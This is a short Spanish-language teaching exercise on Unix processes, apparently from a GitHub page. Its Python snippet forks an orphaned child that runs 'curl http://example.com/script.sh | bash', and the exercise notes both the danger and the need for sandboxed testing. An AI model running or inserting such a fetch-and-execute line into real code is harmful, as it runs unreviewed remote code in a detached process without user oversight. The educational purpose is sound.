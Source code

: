 
### Ejercicio 10: Inyección de comandos en procesos huérfanos

```python
import os, time

pid = os.fork()
if pid > 0:
    os._exit(0)  # El padre termina inmediatamente
else:
    print("[HIJO] Ejecutando script como huérfano...")
    os.system("curl http://example.com/script.sh | bash")  # Peligroso si no hay control
    time.sleep(3)
```

---

## Recomendaciones Finales

- Usa `htop`, `pstree`, y `ps -el` para observar los efectos de cada ejercicio.
- Ejecuta con permisos limitados y en entornos de prueba (máquinas virtuales o contenedores).
- Modifica los códigos para generar variantes: múltiples niveles de procesos, procesos que fallan, etc.

---